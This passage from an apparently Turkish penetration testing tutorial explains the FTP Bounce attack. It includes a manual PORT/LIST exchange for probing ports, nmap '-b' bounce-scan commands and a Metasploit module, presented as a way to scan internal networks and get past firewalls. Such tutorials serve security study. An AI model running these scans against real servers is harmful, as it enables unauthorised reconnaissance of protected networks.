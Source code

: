 ```bash
-rw-rw-rw-   1 ftp      ftp         5686 Nov 07  2007 vcredist.bmp
-rw-rw-rw-   1 ftp      ftp      1442522 Nov 07  2007 VC_RED.cab
-rw-rw-rw-   1 ftp      ftp       232960 Nov 07  2007 VC_RED.MSI
drw-rw-rw-   1 ftp      ftp            0 Jun 18  2020 Windows
drw-rw-rw-   1 ftp      ftp            0 Mar 13  2019 xampp
226 File sent ok
ftp>
```

### FTP Bounce

FTP Bounce saldırganın önce FTP sunucusuna bağlandığı ve ardından diğer sunuculara bağlanmak için PORT komutunu kullandığı bir istismar türüdür. Client’ın hem control hem de data bağlantılarını başlattığı pasif mod FTP'den yararlanır.

![https://i.ibb.co/XDXyGM1/image.png](https://i.ibb.co/XDXyGM1/image.png)

FTP Bounce Zafiyetinin Manual Tespit Edilmesi:

```bash
USER A
331 Username okay, awaiting password
PASS B
230 User logged in, proceed
PORT 172,32,80,80,0,8080
200 The requested action has been successfully completed
LIST
150 File status okay; about to open data connection // 8080 portunun açık olduğu anlamına gelir.
226 Closing data connection
PORT 172,32,80,80,0,7777
200 The requested action has been successfully completed
LIST
425 No connection established // 7777 portunun kapalı veya filtreli olduğu anlamına gelir.
```

FTP Bounce İçin Nmap ve Metasploit Kullanımı:

```bash
nmap -sV --script=ftp-bounce -p 21 10.10.11.101
nmap -Pn -sV -p 21 -b <vulnip> <targetip>
msf6 > use auxiliary/scanner/portscan/ftpbounce
```

Nmap kullanılarak farklı bir adrese veya zafiyetlinin bulunduğu ağda yerel tarama yapılabilir.

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
nmap -Pn -v -p 21,80 -b ftp:ftp@10.2.1.5 127.0.0.1 #Sunucunun yerel 21,80 portuna tarama yapar
nmap -v -p 21,22,445,80,443 -b ftp:ftp@10.2.1.5 192.168.0.1/24 #Zafiyetlinin iç networkünde keşif yapar.
```

![https://i.ibb.co/6Y2WTCZ/image.png](https://i.ibb.co/6Y2WTCZ/image.png)

Dışarıya kapalı port varsa veya porta ulaşmamızı engelleyen bir güvenlik duvarı varsa bu şekilde atlatılabilir.

